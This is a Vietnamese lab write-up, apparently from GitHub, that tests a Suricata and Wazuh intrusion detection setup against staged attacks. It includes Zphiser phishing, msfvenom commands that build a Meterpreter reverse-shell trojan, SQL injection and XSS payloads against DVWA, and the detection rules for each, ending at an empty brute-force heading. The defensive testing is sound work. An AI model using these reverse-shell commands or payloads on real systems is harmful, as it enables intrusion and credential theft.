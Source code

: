 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
![](Image/KB1_1.png)  
  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
![](Image/KB1_2.png)  
  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy kẻ tấn công
![](Image/KB1_3.png)  
![](Image/KB1_4.png)  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
![](Image/KB1_5.png)  
  
Phía Wazuh  
![](Image/KB1_6.png)  
  
![](Image/KB1_7.png)  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.39 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.39 ( máy tấn công )  
set LPORT 4444  
exploit  
  
![](Image/KB2_1.png)  
  
![](Image/KB2_2.png)  
  
Mở port 80
![](Image/KB2_3.png)  
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 
![](Image/KB2_4.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  
![](Image/KB2_5.png)  
  
Phía Wazuh
![](Image/KB2_6.png)  
  
## Kịch bản 3: tấn công web
Mục tiêu:  
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web  
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát  
Môi trường kiểm thử: website DVWA  
  
### SQL injection
Dùng các payload sau để kiểm tra SQL injection:  
‘ OR 1=1#  

' union select table_name,null from information_schema.tables#  

Rule cảnh báo:  
alert http any any -> any any (msg:"[ALERT] SQL Injection Keywords Detected"; flow: to_server, established; content:"'"; http_uri; pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i"; classtype:web-application-attack; sid:1000021; rev:3;)  
  
Giải thích rule:  
- flow: to_server, established: lưu lượng từ client đến server qua kết nối HTTP đã thiết lập  
- content:"'" + http_uri: kiểm tra có dấu ' trong URI  
- pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i": Regex tìm các pattern SQL Injection như ' or 1=1, --, #, %27, union select  
- classtype:web-application-attack: tấn công ứng dụng web
  
Phía suricata  
  
Phía Wazuh  
  
### XSS (Reflected, Restored)
#### XSS Reflected
Payload XSS Reflected  
Chèn <svg onload=alert('BugBot19 was here')> vào ô What’s your name  

  
Rule cảnh báo:  
alert http any any -> any any (msg:"Reflected XSS attempt - <script>"; content:"<script>"; nocase; http_uri; sid: 1001001; rev:1;)  
alert http any any -> any any (msg:"Reflected XSS attempt - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_uri; sid:1001002; rev:1;) alert http any any -> any any (msg:"Reflected XSS attempt - alert("; content:"alert("; nocase; http_uri; sid:1001003; rev:1;)  

Giải thích rule:  
- http_uri: kiểm tra trên phần URI  
- content:"<script>", "<img src=x onerror", "alert(": các payload XSS phổ biến  
- nocase: không phân biệt hoa thường  
  
Phía suricata
Phía Wazuh  
#### XSS Restored
Payload XSS Restored  
Chèn <script>alert(document.domain)</script> vào ô Message  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Stored XSS Detected in HTTP response"; content:"<script>"; nocase; http_server_body; sid:1001004; rev:1;)  
alert http any any -> any any (msg:"Stored XSS Detected - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_server_body; sid: 1001005; rev:1;)  

Giải thích rule:  
- http_server_body: kiểm tra nội dung phần body trả về từ server
- content:"<script>", "<img src=x onerror": payload XSS điển hình

Phía suricata  
Phía Wazuh  
### Brute Force
